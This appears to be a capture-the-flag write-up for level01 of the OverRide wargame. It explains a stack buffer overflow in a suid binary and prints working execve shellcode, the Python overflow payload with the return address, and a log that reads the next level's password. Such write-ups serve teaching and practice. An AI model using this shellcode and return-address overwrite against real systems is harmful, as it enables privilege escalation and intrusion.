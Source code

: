 # Level1

## Solution

* There is one file in our home, ```level1```, belonging to ```level2``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the very long disassembled code, but we will describe its behaviour:

	* ```main()``` allocates an on-stack buffer of ```0x40``` bytes
	* it then prompts the user for a username
	* the user input is stored in a global variable, ```a_user_name``` and its content is checked byt ```verify_user_name()``` : if the string is other than ```dat_wil```, ```main()``` returns
	* ```main()``` then prompts the user for a password
	* the user input, obtained with ```fget()``` with ```0x64``` possible bytes, is this time stored in the on-stack buffer
	* whatever is the return of ```verify_user_pass```, the function outputs ```nope, incorrect password...``` and returns


* What we did with all of that:

	* our goal was to use the buffer allocated in ```main()``` to write an address of a shellcode in place of the former ```eip``` address
	* indeed, the buffer size is ```0x40``` bytes while ```fgets``` accepts up to ```0x64``` bytes
	* to get the offset until the former ```eip```, we use a pattern in ```gdb peda```: the result is ```EIP+0 found at offset: 80```
	* we stored a shellcode in an environment variable:
	```sh
	```export SHELLCODE=`python -c "print('\x90' * 1024 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')"`
	```
	* we got the address by executing env program (see the Ressources) 
	```
	level01@OverRide:/var/crash$ /var/crash/env SHELLCODE
	SHELLCODE: 0xffffd4a8
	```
	* we wrote the content of the tow user inputs in one single file:
	```sh
	python -c "print('dat_wil' + '0' * 248 + 'A' * 80 + 'a8d4ffff'.decode('hex'))" > /var/crash/lvl1
	```
	* then we can exploit the program:
	```
	level01@OverRide:~$ cat /var/crash/lvl1 - | ./level01
	********* ADMIN LOGIN PROMPT *********
	Enter Username: verifying username....

	Enter Password:
	nope, incorrect password...

	cd ../level02
	cat .pass
	PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
	```

